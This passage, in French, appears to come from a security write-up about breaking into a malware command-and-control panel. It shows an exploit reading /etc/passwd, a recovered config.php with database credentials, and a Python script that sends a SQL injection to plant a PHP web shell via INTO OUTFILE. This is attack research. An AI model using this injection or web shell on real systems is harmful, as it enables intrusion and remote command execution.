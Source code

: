 Dans la pratique :  

```bash
$ python exploit.py /etc/passwd
$root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
dexter:x:1000:1000:dexter,,,:/home/dexter:/bin/bash
mysql:x:104:106:MySQL Server,,,:/nonexistent:/bin/false
;#
```

Après avoir retrouvé les fichiers de configuration d'Apache (*/etc/apache2/apache2.conf* et */etc/apache2/sites-enabled/000-default*) je récupère le *config.php* du C&C :  

```php
<?php
    //Connect to shitty DB
        $dbname = "nasproject";
        $user = "root";
        $pw = "password";
    $link = mysql_connect('localhost',$user,$pw);
    $db = mysql_select_db($dbname,$link);
    /////////////////////////////////////////
?>
```

C'est bien mais maintenant il faudrait écrire sur le disque. Pas bien compliqué (*exes* étant le path utilisé par le script d'upload donc certainement écrivable) :  

```python
payload = "' UNION SELECT NULL,'<?php system($_GET[\"cmd\"]); ?>',NULL INTO OUTFILE '/var/www/Panel/exes/bd.php'#"
url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()
d = {
        "val": base64.b64encode(key),
        arg: encrypt(payload)
    }
r = sess.post(url, data=d, headers=hdrs, timeout=3)
data = urllib.unquote(r.headers['set-cookie'].split("=", 1)[1])
print decrypt(data)
```
